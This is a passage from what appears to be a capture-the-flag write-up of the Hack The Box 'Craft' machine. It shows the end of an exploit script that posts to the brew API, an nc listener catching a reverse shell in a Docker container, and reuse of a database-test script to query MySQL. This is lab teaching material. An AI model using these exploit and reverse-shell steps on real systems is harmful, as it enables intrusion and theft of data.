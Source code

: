     json_data = json.dumps(brew_dict)
    response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
    print(response.text)

Running it

    root@kali:# python3 craft-api-exploit.py
    Usage: craft-api-exploit.py IP PORT
    root@kali:# python3 craft-api-exploit.py 10.10.15.38 9001


And I got my shell back

    root@kali:# nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.110.
    Ncat: Connection from 10.10.10.110:43437.
    /bin/sh: can't access tty; job control turned off
    /opt/app #

By doing hostname I can see that we are in a docker.

    /opt/app# hostname
    5a3d243127f5

## Gilfoyle Repo



After some time in the docker trying to enumerate the network, maybe I can pivot to the real box. wasted some time in that and some other rabbit holes.

There was **dbtest.py** script in the repository testing connection to a database. Database wasn't on the same docker I am on and there was no MySQL installed so I had to enumerate the database with that python script.

    #!/usr/bin/env python
    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

    try:
        with connection.cursor() as cursor:
            sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
            cursor.execute(sql)
            result = cursor.fetchone()
            print(result)
